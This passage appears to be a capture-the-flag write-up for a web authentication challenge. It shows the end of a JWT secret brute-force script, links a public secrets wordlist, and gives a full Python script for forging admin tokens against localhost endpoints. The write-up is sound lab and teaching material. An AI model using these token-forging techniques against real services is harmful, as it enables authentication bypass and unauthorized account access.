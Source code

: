 ```python
			continue

if not secret_decoded:
	print("The secret of the token has not been found")
```

**The wordlist is :** [https://github.com/wallarm/jwt-secrets/blob/master/jwt.secrets.list](https://github.com/wallarm/jwt-secrets/blob/master/jwt.secrets.list)

**The result is :** 

- JWT token for [http://localhost/8080/2fa](http://localhost/8080/2fa) :
![](attachments/Web%20Challenge%20-%20Auth%20-%20jwt%20bf%202fa.png)

- JWT token for [http://localhost/8080/flag](http://localhost/8080/flag) :
![](attachments/Web%20Challenge%20-%20Auth%20-%20jwt%20bf%20flag.png)

So we found the secret to sign the jwt token which gives us access to double authentication. It’s `YOUR_JWT_SECRET_HERE`

### Generate token for admin with good signature and time validity

With this script, we can generate a new token:

```python
# Generate JWT token

import jwt,sys, argparse, datetime, json;

# Get arguments
parser = argparse.ArgumentParser(description='Generate JWT token')
parser.add_argument('-p', required=True, type=str, help='Payload in JSON format')
parser.add_argument('-t', required=True, type=int, help='Validity time in second')
parser.add_argument('-s', required=True, type=str, help='Secret')

args = parser.parse_args()

payload, secret, validity_time = json.loads(args.p), args.s, args.t

timestamp_start = datetime.datetime.timestamp(datetime.datetime.now())
timestamp_end = timestamp_start + validity_time

payload['iat'] = timestamp_start
payload['exp'] = timestamp_end

print(payload)

token = jwt.encode(payload, secret, algorithm="HS256")
print(token)
```
